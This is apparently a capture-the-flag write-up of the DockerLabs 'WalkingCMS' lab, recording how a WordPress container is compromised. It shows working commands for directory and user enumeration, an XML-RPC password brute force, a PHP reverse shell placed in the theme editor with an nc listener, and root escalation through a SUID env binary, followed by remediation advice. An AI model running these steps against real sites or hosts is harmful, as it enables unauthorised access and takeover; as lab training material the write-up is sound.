










# WalkingCMS — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info



## Summary

**WalkingCMS** is an Easy DockerLabs machine built around a vulnerable WordPress installation. Enumeration revealed a `/wordpress/` subdirectory behind the default Apache page, running WordPress 6.4.3 on the `twentytwentytwo` theme. WPScan identified a valid user (`mario`) and, through an XML-RPC brute-force attack, recovered weak credentials. Authenticating as an administrator opened access to the built-in Theme Editor, which was used to inject a PHP reverse shell into the active theme and gain code execution as `www-data`. From there, a SUID bit set on `/usr/bin/env` was abused to escalate to root.

**Attack chain:** Directory Enumeration → WordPress Discovery → User Enumeration → XML-RPC Credential Brute Force → Admin Access → Theme Editor RCE (www-data) → SUID Binary Misconfiguration (`/usr/bin/env`) → Root

## 1. Reconnaissance

Confirmed connectivity to the target:



Full port scan with `nmap`:

```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 PHP cli server 5.5 or later
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
```

Only port 80 is open, showing the stock Apache2 Debian default page:



## 2. Web Enumeration

Directory brute-forcing with `gobuster`:

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt --exclude-length 10701

wordpress            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]
```

A hidden `/wordpress/` directory was found. Enumerating inside it:

```
gobuster dir -u http://172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt --exclude-length 10701

login                (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php]
wp-content           (Status: 200) [Size: 0]
admin                (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-admin/]
wp-login.php         (Status: 200) [Size: 7748]
license.txt          (Status: 200) [Size: 19915]
```

Standard WordPress structure confirmed, with `wp-login.php` and `wp-admin` reachable.



## 3. WordPress Enumeration

Ran `wpscan` against the WordPress install:

```
wpscan --url http://172.17.0.2/wordpress/ -e vt,vp

[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
[+] WordPress theme in use: twentytwentytwo
[+] XML-RPC seems to be enabled: http://172.17.0.2/wordpress/xmlrpc.php
```

Enumerated usernames:

```
wpscan --url http://172.17.0.2/wordpress/ -e u

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Wp Json Api (Aggressive Detection)
```

WordPress 6.4.3 is outdated, and a valid username (`mario`) was confirmed via the REST API. XML-RPC being enabled makes it a viable brute-force vector, since it allows many login attempts per request without the usual rate limiting on `wp-login.php`.

## 4. Credential Brute Force

Brute-forced the `mario` account via XML-RPC with `rockyou.txt`:

```
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt

[SUCCESS] - mario / love

[!] Valid Combinations Found:
 | Username: mario, Password: love
```

Credentials recovered: `mario:love`.

## 5. Gaining Admin Access

Logged in at `wp-login.php` with the recovered credentials:



The account has full administrator privileges, confirmed by the complete dashboard menu — including the Theme Editor:



## 6. Exploitation — Theme Editor RCE

WordPress's built-in **Theme Editor** allows an administrator to directly edit PHP files of the active theme from the dashboard — a well-known post-auth RCE vector. Opened `twentytwentytwo/functions.php` and replaced its content with pentestmonkey's `php-reverse-shell.php`, configured with the attacker IP and port 4444:



Started a listener before saving:

```
nc -lvnp 4444
```

Saved the file with **Update File**. Since `functions.php` is loaded on every page render for the active theme, simply reloading any page — including the admin panel itself — triggers it:



The reverse shell connected:



```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Stabilized the shell:

```
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## 7. Privilege Escalation

No `sudo` binary is present on this container. Checked for SUID binaries instead:

```
find / -perm -4000 2>/dev/null

/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
```

`/usr/bin/env` has the SUID bit set — a known GTFOBins privilege escalation vector, since it can execute arbitrary binaries while inheriting its owner's (root) privileges. Used it directly to spawn a privileged shell:

```
/usr/bin/env /bin/sh -p
```



```
# whoami
root
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

Effective UID confirmed as root.

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Outdated WordPress (6.4.3) with a discoverable username and no rate limiting on XML-RPC | Keep WordPress updated, disable XML-RPC if unused (or restrict it), and enforce login rate limiting / account lockout |
| Weak administrator password (`love`) | Enforce a strong password policy and consider MFA for admin accounts |
| Theme Editor enabled for administrators, allowing direct PHP file edits from the dashboard | Disable the Theme/Plugin File Editor (`define('DISALLOW_FILE_EDIT', true);` in `wp-config.php`) |
| `/usr/bin/env` has the SUID bit set | Remove the SUID bit from `env`; it should never need to run with elevated privileges on its own |
